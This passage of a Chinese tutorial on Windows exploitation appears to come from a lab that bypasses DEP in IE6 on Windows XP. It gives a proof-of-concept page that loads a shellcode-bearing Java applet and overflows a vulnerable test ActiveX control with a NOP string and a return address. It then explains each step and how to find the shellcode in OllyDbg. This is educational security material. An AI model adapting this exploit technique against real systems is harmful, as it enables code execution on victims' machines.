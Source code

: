编译成class文件后，在Web中通过如下代码调用
	<applet code=class文件名.class></applet>
    
<b>实验环境：</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows XP SP3||
|Java JDK|1.4.2| |
|目标版本|1.1|脱离JRE，在不具有JRE机器上也能执行|
|编译指令|javac 路径\Shellcode.java -target 1.1|

#### 3.3 POC及其利用

编译产生的Shellcode.class与POC放到同一目录下

POC页面代码
<pre><code>
&lt;html&gt;
&lt;body&gt;
&lt;applet code=Shellcode.class width=300 height=50&gt;&lt;/applet&gt;
&lt;script&gt;alert("开始溢出:");&lt;/script&gt;
&lt;object classid="clsid:053CC2BD-8E24-4E01-A950-9FF689F40487" id="test"&gt;&lt;/object&gt;
&lt;script&gt;
var s = "\u9090";
while(s.length &lt; 54){
    s += "\u9090";
}
s += "\u04FC\u1001";
test.test(s);
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
</code></pre>

代码解释:
1. ActiveX不使用GS
2. 通过Web页面同时加载具有溢出漏洞的ActiveX控件和包含shellcode的Java applet控件
3. java applet的内存空间中具有可执行权限，所以我们的shellcode有执行的机会
4. ActiveX控件中的test函数存在典型的溢出
5. 将函数的返回地址覆盖为Java Applet中的.text段的shellcode起始地址，进而转入shellcoe中执行
6. 实验用Unicode编码，需要考虑Unicode与Ascii之间的转换

<b>实验环境：</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows XP SP3||
|DEP状态|Optout||
|JRE状态|启用||
|Java JDK|1.4.2|不要使用高版本的JRE，否则Java applet申请的内存不在IE进程中 |
|浏览器|IE6||

在浏览器中启用JRE：Internet选项->高级->Java->将Java……用于&lt;applet&gt;

当弹出“开始溢出”对话框时用OllyDbg附加IE进程，附加好后用F9继续执行。而shellcode地址可以通过OllyFindAddr插件中的Custom-Search搜索弹出对话框机器码的前4字节"FC686A0A"来定位shellcode
